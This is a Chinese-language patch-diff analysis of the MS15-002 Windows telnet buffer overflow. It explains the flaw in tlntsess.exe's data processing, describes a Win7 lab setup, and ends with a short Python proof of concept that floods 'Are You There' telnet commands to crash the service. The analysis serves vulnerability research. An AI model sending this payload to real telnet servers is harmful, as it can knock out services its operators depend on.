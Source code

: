 # MS15-002 telnet服务缓冲区溢出漏洞分析与POC构造

0x00 漏洞原理分析
=====

MS15-002是微软telnet服务中的缓冲区溢出漏洞，下面对其原理进行分析并构造POC。

telnet服务进程为tlntsvr.exe，针对每一个客户端连接会相应启动执行一个tlntsess.exe进程，补丁修补的是tlntsess.exe文件，通过补丁比对，确定漏洞位置如下，函数为

```
signed int __thiscall CRFCProtocol::ProcessDataReceivedOnSocket(CRFCProtocol *this, unsigned __int32 *a2)

```

![enter image description here](http://drops.javaweb.org/uploads/images/7e5801225f09f4350f1753b6f8687befc40a40da.jpg)

补丁前，该函数分别为：

![enter image description here](http://drops.javaweb.org/uploads/images/1d444341362e5adb006955897554870b36e23fdf.jpg)

补丁后，该函数为：

![enter image description here](http://drops.javaweb.org/uploads/images/00151677b8008cc60f07d8c687c75b28bdd2d4d5.jpg)

也就是说原来一个缓冲区变成了两个，调用完

```
(*(void (__thiscall **)(CRFCProtocol *, unsigned __int8 **, unsigned __int8 **, unsigned __int8))((char *)&off_1011008 + v12))(v2,&v13,&v9,v6)

```

之后，先对缓冲区中的数据长度进行判断，如果

```
(unsigned int)(v9 - (unsigned __int8 *)&Src - 1) <= 0x7FE 

```

则判断目标缓冲区中可容纳字符的个数，如果

```
(unsigned int)((char *)v14 + v7 - (_DWORD)&Dst) >= 0x800

```

则退出，否则执行

```
memcpy_s(v14, (char *)&v18 - (_BYTE *)v14, &Src, v9 - (unsigned __int8 *)&Src)

```

将数据拷贝到Dst缓冲区。

而补丁前，只有一个缓冲区，调用

```
(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)

```

之前，先对缓冲区中的数据长度进行判定，只有当v13 - &Src <= 2048时才调用，v13 指向可用的缓冲区头部，而

```
(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)

```

处调用的函数，会对v13的值进行修改，如果调用

```
void __thiscall CRFCProtocol::DoTxBinary(CRFCProtocol *this, unsigned __int8 **a2, unsigned __int8 **a3, unsigned __int8 a4)

```

函数，可以看到函数修改了参数3的值，即*a3 += 3。

![enter image description here](http://drops.javaweb.org/uploads/images/431a86ea4ad644e0d16afd8e78ca4a413bfeac44.jpg)

经过分析可以知道，如果v13 - &Src =2047，则满足v13 - &Src <= 2048条件，此时如果(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)调用的是CRFCProtocol::DoTxBinary函数，且执行到了如下指令序列时，显然导致了缓冲区溢出。

```
v7 = *a3;
*v7 = -1;
v7[1] = -3;
v7[2] = a4;
v7[3] = 0;
*a3 += 3;

```

补丁后的版本，采用两个缓冲区，将临时缓冲区指针v9传递给

```
(*(void (__thiscall **)(CRFCProtocol *, unsigned __int8 **, unsigned __int8 **, unsigned __int8))((char *)&off_1011008 + v12))(v2,&v13,&v9,v6)

```

函数返回后判断v9指向的缓冲区中的数据长度，最后判断目的缓冲区剩余可用空间是否可以容纳v9指向的缓冲区中的数据，即对(unsigned int)((char *)v14 + v7 - (_DWORD)&Dst) >= 0x800的判断。

0x01 环境搭建与POC构造
=====

Win7上安装并启动telnet服务端，执行net user exp 123456 /ADD增加用户exp，通过net localgroup TelnetClients exp /ADD将该用户添加至TelnetClients组，这样就能够通过telnet客户端进行登录了。

调试发现

```
signed int __thiscall CRFCProtocol::ProcessDataReceivedOnSocket(CRFCProtocol *this, unsigned __int32 *a2)

```

中_a2为接收到的数据的长度，最大为0x400，v6指向接收到的数据，显然为了触发溢出，必须在调用(_(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)时，让数据出现膨胀，保证处理过后的Src缓冲区中的数据长度大于0x800。

![enter image description here](http://drops.javaweb.org/uploads/images/9052e7975fad71376f409d5c76ecc0334e08d06a.jpg)

查看(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)处可以调用的函数，

```
void __thiscall CRFCProtocol::AreYouThere(CRFCProtocol *this, unsigned __int8 **a2, unsigned __int8 **a3, unsigned __int8 a4)

```

显然会导致数据膨胀，a4是接收到的数据中的一个字节，执行后，a3指向的缓冲区中将写入9字节的固定数据。

![enter image description here](http://drops.javaweb.org/uploads/images/1d444341362e5adb006955897554870b36e23fdf.jpg)

通过wireshark截包，简单对协议进行分析，构造POC如下，让程序多次执行CRFCProtocol::AreYouThere函数，最终触发异常。

```
import socket  
address = ('192.168.172.152', 23)  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
s.connect(address)
data = "\xff\xf6" * 0x200
s.send(data) 
s.recv(512)  
s.close()

```

运行poc，在

```
signed int __thiscall CRFCProtocol::ProcessDataReceivedOnSocket( CRFCProtocol *this, unsigned __int32 *a2)

```

处设置断点，中断后可以看到_a2 = 0x400，_(DWORD_)(_(DWORD*)(this+0x1E40)+ 0x16c8)指向接收到得数据。

![enter image description here](http://drops.javaweb.org/uploads/images/e2029370dfa78b48ee39ff1025f6519d97ecfb11.jpg)

在函数返回前设置断点，执行之后，可以看到__security_check_cookie检测到了栈溢出，触发了异常，中断到调试器。

![enter image description here](http://drops.javaweb.org/uploads/images/166fac2d33f4417f8371530776295957996baf11.jpg)